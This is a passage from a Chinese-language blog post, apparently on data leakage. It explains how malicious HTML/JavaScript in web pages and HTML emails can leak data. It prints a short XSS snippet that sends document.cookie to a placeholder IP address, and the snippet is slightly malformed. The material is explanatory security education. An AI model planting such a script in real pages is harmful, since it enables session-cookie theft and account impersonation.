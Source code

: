     ![](/img/posts/nick/data-leakage/dl_6.png)

* **惡意 HTML/JavaScript**
    有些網站本身就帶著惡意的程式碼，當使用者進入的或點擊按鍵，資料就會被攻擊者送到特定的地點，下方的程式碼是一個比較常見於 XSS 攻擊的簡單例子，在點進有這段程式碼的頁面時 cookie 內的値就會被駭客傳送到 111.222.333.444 這個 IP，cookie 是很多網站用來識別連線者的一個欄位，如果你在登入 A 網站後 cookie 才被偷走，偷到它的人有很高的機會偽冒你的身份登入 A 網站。

    ```javascript
    <script type="text/javascript">
    document.location='http://111.222.333.444/cookies.php?c=' document.cookie;
    </script>
    ```
    部落格中也有數篇關於 XSS 的文章，有興趣可以進一步看更深入的分析。

### 2. 收信 

* **惡意 HTML/JavaScript**
    電子郵件接受跟網頁一樣的 html 格式，點開 html 格式信件的行為接近於開啟一個離線的網頁，所以電子郵件也跟網頁一樣會受到"惡意 HTML/JavaScript"所引響，在不經意間外流資料，但前面已經提過就不重複說明。

### 3. 自架服務

